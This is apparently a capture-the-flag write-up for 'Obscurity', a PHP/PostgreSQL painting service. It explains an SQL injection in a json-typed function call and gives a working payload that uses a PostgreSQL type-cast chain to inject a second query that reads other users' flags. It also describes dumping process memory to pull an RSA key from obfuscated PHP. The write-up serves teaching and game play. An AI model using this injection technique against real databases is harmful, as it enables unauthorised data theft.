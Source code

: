 # Obscurity

## Description

The service is a collaborative online painter. The backend is written on PHP
and uses PostgreSQL db.

## Flags

After registration user can draw geometric figures and text. Flags are
in text messages. Normally, to read the flag, user needs to know its password.

## Vulnerability

There is an SQL-injection in this code:

```
$result = pg_query($db, "SELECT add_action(a:='".json_encode($action_data)."', u:=".$userid.")");
```

The varable `$action_data` is partially controlled by the attacker, for example she can control this content:

```
"action_data":{
   "color": "#abcdef",
   "tool": "text",
   "params": {
         "content": "..."
   }
}
```

First argument of function `add_action()` has type `json`:

```
    CREATE FUNCTION add_action(a json, u int)
        RETURNS int as $$
        declare actionid int;
    BEGIN
        INSERT INTO actions (userid, action) VALUES (u, a) RETURNING id INTO actionid;
        RETURN actionid;
    END;
    $$ language plpgsql SECURITY DEFINER SET search_path = public;
```

Usual exploitation techniques won't work here. If the single quote is passed, the json will be not valid anymore, because
all next double quotes in the "content" will be escaped. The concatenation also will not work, because it is executed only
after the left argument is successfully converted to json.

## The Exploitation

To exploit the service one need to use PostgreSQL syntax to convert arguments to different types in such way that the last type is a valid json.

The payload:

```
"action_data":{
    "color": "#abcdef",
    "tool": "text",
    "params": {
        "content": "'::xid::text::json,u:=1);select add_action(to_json(get_actions(42)),123) as id -- ",
    }
}
```

The convertation to xid type converts the left part to 0, which is a valid json after converting to text.

Other convertation chains are possible.

The full sploit can be found at [/sploits/obscurity/spl.py](../../sploits/obscurity/spl.py).


## Patching

To make sniffing more difficult, the parameters of api-calls are encrypted with RSA. The public key is store in the frontend, the private key is in the backend.

The backend is obfuscated with SourceGuardian. The unobfuscated version is also given, but without the private key. So, to patch the vulnerability,
one need to get the key from the obfuscated version. The simplest way to do it is to import obfuscated php-file with php, dump the process memory and find the key in it.
